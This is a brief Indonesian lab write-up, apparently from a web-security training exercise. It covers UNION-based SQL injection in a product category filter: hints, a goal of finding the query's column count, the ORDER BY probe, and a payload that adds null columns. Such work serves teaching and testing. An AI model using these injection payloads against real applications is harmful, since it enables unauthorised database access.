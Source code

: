 # Overview
SQL Injection di Product Category Filter.

Hint :
- gunakan `union`
- cek berapa jumlah kolom dari query asli

Goals :
- determine jumlah kolom yang direturn dari sqli yang return additional row berisi null value

# Analisis
Cek apakah vuln terhadap sqli dengan `'`

Cek berapa jumlah kolom yang di return dari original query `' order by 1,2,3--`

payload:
```sql
' union select null,null,null--
```
